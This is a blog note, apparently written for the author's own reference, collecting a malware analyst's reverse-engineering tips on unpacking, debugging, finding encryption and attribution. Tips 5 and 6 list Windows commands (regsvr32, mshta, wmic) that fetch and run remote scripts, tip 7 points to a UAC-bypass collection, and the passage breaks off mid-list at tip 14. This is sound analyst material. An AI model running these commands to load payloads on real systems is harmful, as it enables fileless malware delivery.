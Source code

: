 ```yaml
---
title: "Compilation of RE tip of the day by Alexey Kleymenov"
date: "2020-12-15"
layout: single
tags:
- RE
categories:
- Notes
---
```


Alexey Kleymenov posts "tips of the day" from time to time on Twitter, and I made this note to compile his tips for my reference in future. Alexey is a malware analyst and a software engineer with 12+ years of practical RE experience in several international antivirus companies. He also is author of the "Mastering Malware Analysis" book.

1. Need to debug samples with snapshots on the cloud instance or old hardware not supporting virtualization? Emulate it! [link](https://github.com/alexey-kleymenov/reverse_engineering_tools/blob/master/re_howto/debug_malware_on_cloud_machine_with_qemu.md)
2. What are some of the common ways to manually unpack samples?
    * Monitor allocation of big memory blocks
    * Track the stack alignment
    * Keep an eye on big embedded high-entropy blocks 
3. Debugging kernel-mode samples remotely using IDA+WinDbg but need to restore a VM snapshot? You can save existing IDA markdown as IDC, reconnect to the restored state of VM and load it back!    
4. Need to install and use both IDA 5-6 and 7 on one machine? It is possible: [link](https://github.com/alexey-kleymenov/reverse_engineering_tools/blob/master/ida_howto/how_to_use_both_ida5-6_and_ida7_on_one_machine.md)  
5. Less known ways how Windows malware can access the remote payload using standard console commands: 
    * `regsvr32 /s /n /u /i:<url_to_sct> scrobj.dll`
    * `mshta <url_to_hta>`
    * `wmic os get /FORMAT:<url_to_xsl>`
6. Can malware execute VBScript or JScript code as a single-line command like PowerShell to remain fileless? Yes, it can!
    * `mshta vbscript:<script_body>`
    * `mshta javascript:<script_body>`
7. A great compilation of various ways how attackers can bypass UAC in malware: [link](https://github.com/hfiref0x/UACME)
8. Some of the quick ways to find the encryption: 
    * Search for standard constants (`FindCrypt` can help)
    * Search for `xor` instructions
    * Check crypto WinAPIs in **strings** and **imports**
    * Track downloaded and embedded high-entropy blocks
9. Need to decrypt a list of strings in IDA? Check out these easily extendible templates supporting both versions 5-6 and 7+! [link](https://github.com/PacktPublishing/Mastering-Malware-Analysis/tree/master/Chapter03)
10. How to deduce the attackers' origin?
    * check code pages in resources
    * aggregate timestamps (unless obviously forged) and deduce the timezone
    * search for dev strings(like PDB path)
    * match against known IoCs
11. A useful project for analyzing Go modules in IDA: [link](https://github.com/sibears/IDAGolangHelper)
12. How malware is generally implemented as a service:
    * independent executable
    * DLL with its own loader (like rundll32.exe)
    * shared service DLL loaded by `svchost.exe`
13. When working with the memory dump, the import table may already have APIs' addresses. To get the actual API names, try `pe_dlls.idc` script from the `pe_scripts.zip` available on the Hex-Rays website to load DLLs
14. Before `curl`, system tools like `bitsadmin` and `certutil` became misused to download payloads: